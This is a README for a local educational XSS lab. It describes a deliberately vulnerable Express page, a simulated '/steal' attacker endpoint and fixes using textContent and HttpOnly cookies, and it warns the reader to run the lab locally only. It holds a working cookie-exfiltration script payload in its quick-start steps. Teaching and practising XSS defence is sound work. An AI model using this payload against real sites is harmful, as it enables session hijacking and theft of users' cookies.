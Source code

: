 # XSS Local Lab (Educational)

**Warning:** This repository is for educational, local-only use. Do NOT deploy to public servers or use against systems you do not own.

## What it contains
- `server.js` - Express server that serves:
  - `/vulnerable` - a deliberately vulnerable page that sets a non-HttpOnly cookie and echoes user input unsafely.
  - `/steal` - a simulated attacker endpoint that logs received cookie data to `received_log.txt`.
- `package.json` - Node project file.
- `.gitignore` - ignores node_modules and the log file.

## Quick start (run locally)
1. Install Node.js (LTS).
2. Open terminal in this folder.
3. Run:
   ```bash
   npm install
   npm start
   ```
4. Open `http://localhost:3000/vulnerable` in your browser.
5. Try posting:
   ```html
   <script>fetch('/steal?cookie='+encodeURIComponent(document.cookie))</script>
   ```
   Then check your terminal or `received_log.txt` for the simulated exfiltrated cookie.

## Cleanup
- Stop server with Ctrl+C.
- Remove `received_log.txt` if desired.

## Learning goals
- Observe how XSS can execute injected JS.
- See difference between `alert()` (local) and `fetch()` (exfiltration).
- Practice fixing the vulnerability by replacing `innerHTML` with safe `textContent` and setting `HttpOnly` cookies on the server side.
